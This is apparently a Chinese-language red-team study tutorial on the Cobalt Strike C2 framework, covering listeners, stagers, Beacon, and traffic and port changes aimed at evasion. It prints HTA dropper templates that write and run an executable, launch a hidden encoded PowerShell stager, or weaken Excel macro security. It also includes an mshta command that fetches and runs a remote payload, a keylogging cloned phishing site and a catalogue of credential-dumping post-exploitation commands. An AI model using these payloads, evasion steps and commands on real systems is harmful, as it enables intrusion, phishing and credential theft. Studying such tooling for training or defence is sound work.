


# C2是什么

C2 为Command & Control的简称， 即命令及控制服务器。

从语义上来讲，C2即可用作为名词（基础设施）也可以作为动词（交互的行为），例如C2服务器（名词做定语）、攻击者进行C2。

C2 通常有三个角色，客户端、被控端、服务端。客户端通过连接到服务端服务端操控受害者终端。


更多内容阅读[【THM】Intro to C2(C2简介)-红队 - Hekeats - 博客园 (cnblogs.com)](https://www.cnblogs.com/Hekeats-L/p/17346694.html)


# Cobal Strike是什么

CobaltStrike就是一款流行的C2框架

其集成了端口转发、扫描多模式端口Listener、Windows exe程序生成、Windows dll动态链接库生成、java程序生成、office宏代码生成，包括站点克隆获取浏览器的相关信息等。

早期版本Cobalt Srtike依赖Metasploit框架，而现在Cobalt Strike已经不再使用MSF而是作为单独的平台使用。

这个工具的社区版是大家熟知的Armitage(一个MSF的图形化界面工具)，而Cobalt Strike大家可以理解其为Armitage的商业版。


# 基础操作

## 简单使用

- 开启服务端

  ```bash
  ./teamserver 服务端ip 密码 [config_file]
  ```

- 客户端连接服务端

  ```bash
  ./cobaltstrike
  ```

  

- 受害机上线

  - 创建listener

    

    

    host和beacons设置为服务端ip地址（服务端连接目标，客户端连接到服务端）

  - 创建payload/木马

    ```bash
    # powershell
    点击Attacks → Web Drive-by → Scripted Web Delivery
    ```

    受害机使用powershell执行生成的payload即可上线

- 上线后操作

  ```bash
  # 学习时将心跳设为0
  sleep 0
  ```

  

## 菜单栏Cobal Strike


脚本管理器→导入CS插件

## 菜单栏Views（视图）


## 菜单栏Reporting（报告）

Cobalt Strike生成报告的目的在于培训或帮助蓝队（感觉我也可以用这个来学习手法）


- 活动报告（Activity Report）
  此报告中提供了红队活动的时间表，记录了每个后渗透活动。
- 主机报告（Hosts Report）
  此报告中汇总了Cobalt Strike收集的主机信息，凭据、服务和会话也会在此报告中。
- 侵害指标报告（Indicators of Compromise）
  此报告中包括对C2拓展文件的分析、使用的域名及上传文件的MD5哈希。
- 会话报告（Sessions Report）
  此报告中记录了指标和活动，包括每个会话回连到自己的通信路径、后渗透活动的时间线等。
- 社工报告（Social Engineering Report）
  此报告中记录了每一轮网络钓鱼的电子邮件、谁点击以及从每个点击用户那里收集的信息。该报告还显示了Cobalt Strike的System profiler发现的应用程序。
- 战术、技巧和程序报告（Tactics,Techniques,and Procedures）
  此报告将自己的Cobalt Strike行动映射到MITRE的ATT&CK矩阵中的战术，具体可参考https://attack.mitre.org/


## 导航栏


服务器节点图


> 每个主机的图标标识了它的操作系统。如果图标是红色的、并且带有闪电，那么表示此 Beacon 运行在管理员权限的进程中。一个褪色的图标说明此 Beacon 会话被要求离开并且它接受了此 命令。 防火墙图标代表你 Beacon payload 的流量出口点。绿色虚线表示使用了 HTTP 或 HTTPS 连接出网。 黄色虚线表示使用 DNS 协议出网。
>
> 从一个 Beacon 会话连接到另一个 Beacon 会话的箭头表示两个 Beacon 之间存在连接。在这种对等通 信模式中，Cobalt Strike 的 Beacon 使用 Windows 命名管道和 TCP sockets 来控制其他的Beacon。 橙黄色的箭头代表命名管道通道。SSH 会话也使用一个橙黄色的箭头。一个湖蓝色的箭头代表一个 TCP socket 通道。一个红色的（命名管道）或紫色的（TCP）箭头表示一个 Beacon 连接断掉了。


# 基础设施

**为什么要搭建基础设施**

> 隐蔽


## 监听器Listeners

**什么是监听器**

顾名思义，监听器就是等待被入侵系统连接自己的一个服务。


**监听器的作用**

主要是为了接受payload回传的各类数据，类似于MSF中handler的作用。

比如payload在目标机器执行以后，就会回连到监听器然后下载执行真正的shellcode代码。


**监听器的名字一般由以下结构组成：**

```none
Operating System/Payload/Stager
```

例如：

```none
windows/beacon_http/reverse_http
```


**什么是传输器**

攻击载荷`payload`就是攻击执行的内容。攻击载荷通常被分为两部分：传输器`stager` 和传输体`stage`。

传输器`stager`是一个小程序，用于连接、下载传输体`stage`，并插入到内存中。

我个人理解为：攻击载荷里真正用于攻击的代码是在传输体里。

所以为什么要有传输体？直接把攻击载荷插入到内存中不更方便快捷、更香么，搞得又是传输器又是传输体的。

需要传输体是因为在很多攻击中对于能加载进内存，并在成功漏洞利用后执行的数据大小存在严格限制。这就导致在攻击成功时，很难嵌入额外的攻击载荷，正是因为这些限制，才使得传输器变得有必要了。


**创建监听器**


- Name 是对 Listener 备注名称

- Payload中可以选择监听器的类型和使用的协议

  - Beacon

    Beacon直译过来就是灯塔、信标、照亮指引的意思

    Beacon监听器的名称`windows/beacon_http/reverse_http`→ `System/Payload/Stager`

  - Foreign

    Foreign直译就是外部的，这里可以理解成`对外监听器`，主要用于派生会话，如将会话派生到MSF中

- HTTP Hosts 是 Beacon 回连地址
- HTTP Port (C2) 是回连地址端口号
- HTTP Host (Stager) 是下载 Staged 剩余 Payload 主机地址。


## Beacon

### **Beacon是什么**

- Beacon(信标)是指C2代理回调在C2服务器上运行的侦听器的过程，它是一种恶意软件与C2(命令与控制)服务器之间的定期通信方式(通信机制)。

- Beacon有两种通信模式。

  一种是异步通信模式，这种模式通信效率缓慢，Beacon回连团队服务器、下载任务、然后休眠；

  > 为了避免频繁通信暴露目标，每个 Beacon 默认 sleep 是 60 秒与服务器通讯一次，可以通过命令 sleep 或者右键 Becaon，找到 `Session -> Sleep` 设置 TeamServer 与 Beacon 通信时间。

  另一种是交互式通信模式，这种模式的通信是实时发生的。

  > 将sleep设置为0


### **Beacon的类型**--待学习

- Beacon DNS
- Beacon HTTP
- Beacon HTTPS
- Beacon SMB
- Beacon TCP
- Extermal C2


## 特征修改与流量混淆

修改端口

```bash
# 将默认端口50050更改为52110
sed -i 's/50050/52110/' teamserver
```

证书修改

修改teamserver中的keytool命令


Malleable-C2-Profile流量混淆

```bash
# 下载原始profile文件,在Malleable-C2-Profiles/APT/havex.profile
git clone https://github.com/rsmudge/Malleable-C2-Profiles.git
```

```bash
# 检查profile文件
/c2lint ./Malleable-C2-Profiles/APT/havex.profile
```


# Attacks（攻击）

## Packages（生成木马）

### HTML Application Attack（HTA Attack）

> HTA文件是一种称为HTML应用程序的文件格式，它是基于 HTML、CSS、VBScript的技术。
>
> HTA文件可以在Windows操作系统上运行，通过双击HTA文件或使用命令行运行mshta.exe来启动。
>
> 其中HTML 和 CSS 控制样式，而VBScript可以用来执行系统命令。

**Demo代码**

```vbscript
<html>
    <head>
        <title>tetsa</title>
        <style>
            h1 {
                color: red;
            }
        </style>
    </head>
    <body>
        <h1>Hello</h1>
        <a href=#>test link</a>

        <script language="VBScript">
            CreateObject("Wscript.Shell").Run("calc")
        </script>

    </body>
</html>
```

双击打开就会执行vbs代码，从而弹出计算器


HTML Application 菜单有三个方法：


- Executable
- PowerShell
- VBA

Executable 生成内容是 VBScript 脚本，使用 Wscript.Shell 运行代码。

```html
<script language="VBScript">
    Function var_func()
        var_shellcode = "4d5a90000300000004000000ffff0000b8000......"

        Dim var_obj
        Set var_obj = CreateObject("Scripting.FileSystemObject")
        Dim var_stream
        Dim var_tempdir
        Dim var_tempexe
        Dim var_basedir
        Set var_tempdir = var_obj.GetSpecialFolder(2)
        var_basedir = var_tempdir & "\" & var_obj.GetTempName()
        var_obj.CreateFolder(var_basedir)
        var_tempexe = var_basedir & "\" & "evil.exe"
        Set var_stream = var_obj.CreateTextFile(var_tempexe, true , false)
        For i = 1 to Len(var_shellcode) Step 2
            var_stream.Write Chr(CLng("&H" & Mid(var_shellcode,i,2)))
        Next
        var_stream.Close
        Dim var_shell
        Set var_shell = CreateObject("Wscript.Shell")
        var_shell.run var_tempexe, 0, true
        var_obj.DeleteFile(var_tempexe)
        var_obj.DeleteFolder(var_basedir)
    End Function

    var_func
    self.close
</script>
```

PowerShell 也是 VBScript 脚本不过 Wscript.Shell 运行的是 PowerShell 程序，其执行的内容经过 Base64 编码。

```html
<script language="VBScript">
    Function var_func()
        Dim var_shell
        Set var_shell = CreateObject("Wscript.Shell")
        var_shell.run "powershell -nop -w hidden -encodedcommand JABzAD0ATgBlAHcALQBPAGIAagBlAG......MAdAAgAEkAoACkAOwA=", 0, true
    End Function
    var_func
    self.close
</script>
```

VBS 将执行 Excel 宏上线。过程是修改注册表信任 Excel 宏，并执行宏，最后恢复注册表。

```html
<html><head><script language="vbscript">
Dim objExcel, WshShell, RegPath, action, objWorkbook, xlmodule

Set objExcel = CreateObject("Excel.Application")
objExcel.Visible = False

Set WshShell = CreateObject("Wscript.Shell")

function RegExists(regKey)
    on error resume next
    WshShell.RegRead regKey
    RegExists = (Err.number = 0)
end function

' Get the old AccessVBOM value
RegPath = "HKEY_CURRENT_USER\Software\Microsoft\Office\" & objExcel.Version & "\Excel\Security\AccessVBOM"

if RegExists(RegPath) then
    action = WshShell.RegRead(RegPath)
else
    action = ""
end if

' Weaken the target
WshShell.RegWrite RegPath, 1, "REG_DWORD"

' Run the macro
Set objWorkbook = objExcel.Workbooks.Add()
Set xlmodule = objWorkbook.VBProject.VBComponents.Add(1)
xlmodule.CodeModule.AddFromString "Private "......"
objExcel.DisplayAlerts = False
on error resume next
objExcel.Run "Auto_Open"
objWorkbook.Close False
objExcel.Quit

' Restore the registry to its old state
if action = "" then
    WshShell.RegDelete RegPath
else
    WshShell.RegWrite RegPath, action, "REG_DWORD"
end if
self.close
</script></head></html>
```

执行上线很简单，使用 mshta 执行 .hta 文件即可。

```cmd
mshta http://192.168.0.102:80/download/file.ext
```


### MS Office Macro--待学习

微软 Office Word，Excel，PowerPoint 常说宏都是用 VBA（Visual Basic for Application）编写的，这个宏的作用是可以访问部分 Windows API 模拟键盘、鼠标等操作。


### Payload Gennerator

生成原始 Payload用来当作免杀的原材料。


### Windows Executable/Executable (S)


## Web Drive-by（钓鱼攻击）

### System Profier

系统侦察`System Profiler`是一个方便客户端攻击的侦察工具，这个工具将会在CS服务端上启动一个Web服务，这样当目标访问这个Web服务的时候，我们就能够看到目标使用的浏览器、操作系统等等指纹信息。


访问server的`/baidu`会重定向到百度，获得到的指纹可以在以下查看

```bash
1、View --> Applications
2、View --> Web Log
3、Cobalt Strike --> Visualization --> Target Table
```


值得注意的一点是如果 Cobalt Strike 的 web 服务器收到了lynx、wget 或 curl 的请求，CS会自动返回一个 404 页面，这样做是为了防御蓝队的窥探。


### Clone site（克隆网站）



- Log keystrokes on cloned site：获取目标的键盘记录，在WebLog中可以查看


克隆效果


### HostFile

作用相当于用http.server起了一个web服务，将文件上传到CS服务端上提供远程文件下载


### Manager

用来管理上述功能使用时创建的Web 站点


### 邮件钓鱼


# 后渗透

## Beacon 管理

在 Beacon 会话上右击 `interact`（交互）即可打开 Beacon 控制台

**Beacon 菜单**

Access：包含了一些对凭据的操作及提权的选项

Explore：包含了信息探测与目标交互的选项

Pivoting：包含了一些设置代理隧道的选项

Session：包含了对当前 Beacon 会话管理的选项

**Beacon 命令**

```bash
beacon> help

Beacon Commands
===============

 Command                   Description
    -------                   -----------
    argue                     进程参数欺骗
    blockdlls                 阻止子进程加载非Microsoft DLL
    browserpivot              注入受害者浏览器进程
    bypassuac                 绕过UAC提升权限
    cancel                    取消正在进行的下载
    cd                        切换目录
    checkin                   强制让被控端回连一次
    clear                     清除beacon内部的任务队列
    connect                   Connect to a Beacon peer over TCP
    covertvpn                 部署Covert VPN客户端
    cp                        复制文件
    dcsync                    从DC中提取密码哈希
    desktop                   远程桌面(VNC)
    dllinject                 反射DLL注入进程
    dllload                   使用LoadLibrary将DLL加载到进程中
    download                  下载文件
    downloads                 列出正在进行的文件下载
    drives                    列出目标盘符
    elevate                   使用exp
    execute                   在目标上执行程序(无输出)
    execute-assembly          在目标上内存中执行本地.NET程序
    exit                      终止beacon会话
    getprivs                  Enable system privileges on current token
    getsystem                 尝试获取SYSTEM权限
    getuid                    获取用户ID
    hashdump                  转储密码哈希值
    help                      帮助
    inject                    在注入进程生成会话
    jobkill                   结束一个后台任务
    jobs                      列出后台任务
    kerberos_ccache_use       从ccache文件中导入票据应用于此会话
    kerberos_ticket_purge     清除当前会话的票据
    kerberos_ticket_use       Apply 从ticket文件中导入票据应用于此会话
    keylogger                 键盘记录
    kill                      结束进程
    link                      Connect to a Beacon peer over a named pipe
    logonpasswords            使用mimikatz转储凭据和哈希值
    ls                        列出文件
    make_token                创建令牌以传递凭据
    mimikatz                  运行mimikatz
    mkdir                     创建一个目录
    mode dns                  使用DNS A作为通信通道(仅限DNS beacon)
    mode dns-txt              使用DNS TXT作为通信通道(仅限D beacon)
    mode dns6                 使用DNS AAAA作为通信通道(仅限DNS beacon)
    mode http                 使用HTTP作为通信通道
    mv                        移动文件
    net                       net命令
    note                      备注       
    portscan                  进行端口扫描
    powerpick                 通过Unmanaged PowerShell执行命令
    powershell                通过powershell.exe执行命令
    powershell-import         导入powershell脚本
    ppid                      Set parent PID for spawned post-ex jobs
    ps                        显示进程列表
    psexec                    Use a service to spawn a session on a host
    psexec_psh                Use PowerShell to spawn a session on a host
    psinject                  在特定进程中执行PowerShell命令
    pth                       使用Mimikatz进行传递哈希
    pwd                       当前目录位置
    reg                       Query the registry
    rev2self                  恢复原始令牌
    rm                        删除文件或文件夹
    rportfwd                  端口转发
    run                       在目标上执行程序(返回输出)
    runas                     以其他用户权限执行程序
    runasadmin                在高权限下执行程序
    runu                      Execute a program under another PID
    screenshot                屏幕截图
    setenv                    设置环境变量
    shell                     执行cmd命令
    shinject                  将shellcode注入进程
    shspawn                   启动一个进程并将shellcode注入其中
    sleep                     设置睡眠延迟时间
    socks                     启动SOCKS4代理
    socks stop                停止SOCKS4
    spawn                     Spawn a session 
    spawnas                   Spawn a session as another user
    spawnto                   Set executable to spawn processes into
    spawnu                    Spawn a session under another PID
    ssh                       使用ssh连接远程主机
    ssh-key                   使用密钥连接远程主机
    steal_token               从进程中窃取令牌
    timestomp                 将一个文件的时间戳应用到另一个文件
    unlink                    Disconnect from parent Beacon
    upload                    上传文件
    wdigest                   使用mimikatz转储明文凭据
    winrm                     使用WinRM横向渗透
    wmi                       使用WMI横向渗

```

如果不知道怎么使用这些命令，通过 help 跟上具体命令 `help <command>`，会输出具体使用说明。

```bash
beacon> help ls
Use: ls [folder]

Lists files in a folder
```

`[folder]` 是必选的参数 如果遇到尖括号如 `<argrument name>` 就是可选参数。


## Beacon派生（会话传递）

- 将当前会话传递至其他CS团队服务器中，直接右击`spawn`选择要传递的监听器即可。

- 将当前会话传递至MSF中

  CS创建Foreign监听器

  

  MSF

  ```bash
  use exploit/multi/handler
  set payload windows/meterpreter/reverse_http
  set LHOST 192.168.111.128
  set lport 9999
  run
  ```

  CS右键会话派生（spawn）选择刚刚创建好的Foreign监听器

  

  如下成功派生

  

  


# 插件增强

[GitHub - lintstar/LSTAR: LSTAR - CobaltStrike 综合后渗透插件](https://github.com/lintstar/LSTAR) [GitHub - pandasec888/taowu-cobalt-strike](https://github.com/pandasec888/taowu-cobalt-strike)

[pandasec888/taowu-cobalt_strike (github.com)](https://github.com/pandasec888/taowu-cobalt_strike)


# 参考文章

作者老版本官方教程中文翻译https://www.bilibili.com/video/BV16b411i7n5/

[【建议收藏】CS学习笔记合集 | TeamsSix](https://teamssix.com/201023-192553.html#toc-heading-20)

[Cobalt Strike 4.0 手册翻译 (2019年12月2日更新版本) - 奇安信A-TEAM技术博客 (qianxin.com)](https://blog.ateam.qianxin.com/post/cobalt-strike-40-shou-ce-fan-yi-2019-nian-12-yue-2-ri-geng-xin-ban-ben/)

[Red Team: Infrastructure - raingray Blog](https://www.raingray.com/archives/4385.html#C2+使用)